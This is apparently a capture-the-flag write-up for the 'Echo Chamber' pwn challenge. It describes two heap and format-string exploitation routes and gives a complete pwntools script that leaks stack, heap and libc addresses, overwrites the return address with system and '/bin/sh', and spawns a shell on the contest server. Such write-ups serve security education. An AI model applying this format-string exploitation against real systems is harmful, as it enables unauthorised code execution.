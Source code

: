 # P.W.N. CTF

## _Echo Chamber_

## Information

**Category:** | **Points:** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 552 | 8 | merrychap

**Description:** 

> Echo chambers are a thing nowadays. Flag in /opt.

`nc echochamber.uni.hctf.fun 13374 `


## TLDR Solution

[echo_chamber](./echo_chamber)

[libc.so.6]()./libc.so.6)

[ld-linux.so.2](./ld-linux.so.2)


There were basically two different approaches to exploit the binary (at least, I found two of them).

1. The first one: Produce a double free attack in the echo loop using format string bug. After this, still in the echo loop, manage the `malloc` to allocate in the same chunk that was freed earlier. Quit from the echo loop and produce fastbin attack, allocating in `__free_hook`, writing `one_gadget` address there.

2. The second one: In the echo loop, use stack address chains to be able to write anywhere in the memory. Then just overwrite RET with the `system` address and RET+8 with the `/bin/sh` address in the given libc.

I decided to implement the second one exploit. The first one I found after the CTF ended.

```python
from time import sleep

from pwn import *


def main():    
    libc = ELF('./libc.so.6')
    # pc = process(['./ld-linux.so.2', './echo_chamber'], env={'LD_PRELOAD': './libc.so.6'})

    pc = remote('echochamber.uni.hctf.fun', 13374)

    raw_input()

    pc.recvline()

    pc.sendline('%1$x')
    stack = int(pc.recv(10), 16) - 40
    print 'stack @ ' + hex(stack)

    pc.sendline('%5$x')
    text_base = int(pc.recv(10), 16) - 0x2029
    print 'text_base @ ' + hex(text_base)

    # 10 is an offset for buffer
    pc.sendline('%10$x')
    heap_base = int(pc.recv(10), 16) - 0x240
    print 'heap_base @ ' + hex(heap_base)

    pc.sendline('%19$x')
    libc_base = int(pc.recv(10), 16) - 241 - libc.symbols['__libc_start_main']
    print 'libc_base @ ' + hex(libc_base)
    print 

    print '1. become ' + hex((stack + 56) & 0xffff)
    print '2. become ' + hex((stack + 98) & 0xffff)

    target1 = libc_base + libc.symbols['system']
    target2 = libc_base + list(libc.search('/bin/sh'))[0]

    pc.sendline('A' * 32)

    # 61 is the offset for the server, but
    # 62 is for the local exploitation
    pc.sendline('%{}x%25$hn'.format((stack + 56) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 98) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92) >> 16))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((stack + 92 + 2) & 0xffff))
    pc.sendline('%{}x%24$hn'.format((target1) >> 16))

    pc.sendline('%{}x%61$hn'.format((stack + 100) & 0xffff))
    pc.sendline('%{}x%14$hn'.format(target2 & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 100+2) & 0xffff))
    pc.sendline('%{}x%14$hn'.format((target2 >> 16) & 0xffff))
    pc.sendline('%{}x%61$hn'.format((stack + 96) & 0xffff))

    pc.sendline('q')

    pc.sendlineafter('Was it fun?', 'A')
    pc.sendlineafter('Would you echo again?', 'A')

    pc.interactive()


if __name__ == '__main__':
    main()
```

> flag{something_with_tcache_ga48ghydgja}